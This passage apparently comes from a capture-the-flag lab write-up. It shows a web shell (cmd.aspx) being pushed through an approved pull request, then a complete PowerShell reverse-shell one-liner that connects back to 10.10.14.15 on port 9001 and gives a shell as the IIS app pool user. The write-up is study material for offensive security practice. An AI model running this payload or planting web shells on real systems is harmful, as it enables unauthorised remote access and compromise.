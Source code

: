   
  
  

![](https://i.imgur.com/yp6c6Ld.png)


  

Click on create a pull request:

  

![](https://i.imgur.com/OZeHkqa.png)


  

Now by clicking on Approve -> Complete:

  

![](https://i.imgur.com/VwY3Vy5.png)


  

Now I can access cmd.aspx on web browser

  

### 4: cmd.aspx to reverse shell

  

I can see it works throgh `whoami`:

  

![](https://i.imgur.com/t5wnx8o.png)


  

Using [this payload generator](https://podalirius.net/en/articles/windows-reverse-shells-cheatsheet/):

  

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',9001);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

  

![](https://i.imgur.com/t98WYJj.png)


  

Now I have shell as **IIS apppool**.

  

## Privesc: iis apppool to robidl
